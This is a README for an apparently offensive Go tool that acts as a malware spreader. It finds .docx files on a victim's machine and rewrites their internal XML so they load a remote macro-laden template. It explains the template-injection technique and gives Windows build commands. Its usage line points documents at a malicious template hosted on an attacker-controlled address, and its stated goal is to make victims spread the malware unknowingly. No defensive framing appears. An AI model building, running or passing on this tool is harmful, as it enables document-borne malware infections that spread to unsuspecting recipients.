 # Template Injector

This spreader module works by searching for document files (specifically .docx files) on a victim's system & injecting a macro-rigged template into any found document files. Then, when the victim distributes the newly rigged document, the person that opens it & enables content will end up with our malware. This means that your victim will be distributing your malware for you!

This works by forcing the document to contain our malicious template (by modifying/adding internal files of the document such as app.xml, settings.xml, [Content-Types].xml, footnotes.xml, endnotes.xml, settings.xml.rels, document.xml.rels, )

Normally, template injection only works if the document was previously created with a template. For example, when you open Word, you're presented with a screen like this or similar:

![](/imgs/img1.png)

When you choose a template (EX: the single spaced (blank) template), you can now perform template injection by unzipping the word document and modifying the `Target` variable in the `settings.xml.rels` file to be the location of your malicious template. But if your document was created without a template (Blank document for example), then you cannot perform template injection. 

This script will allow you to force a document with no template have a malicious template and essentally perform template injection. All you need to do is pass the URL of the malicious template to the `-url` flag.

# Compilation

* for 32-bit machines: `GOOS=Windows GOARCH=386 go build injector.go`
* for 64-bit machines: `GOOS=Windows GOARCH=amd64 go build injector.go`

# Command-Line Usage

* `injector.exe -url http://192.168.1.212:8000/maliciousTemplate.dotm` (Replace the url with where you have hosted your malicious template)

# References

* Converting from Unix LF to Windows CR LF - https://www.programming-books.io/essential/go/normalize-newlines-1d3abcf6f17c4186bb9617fa14074e48)
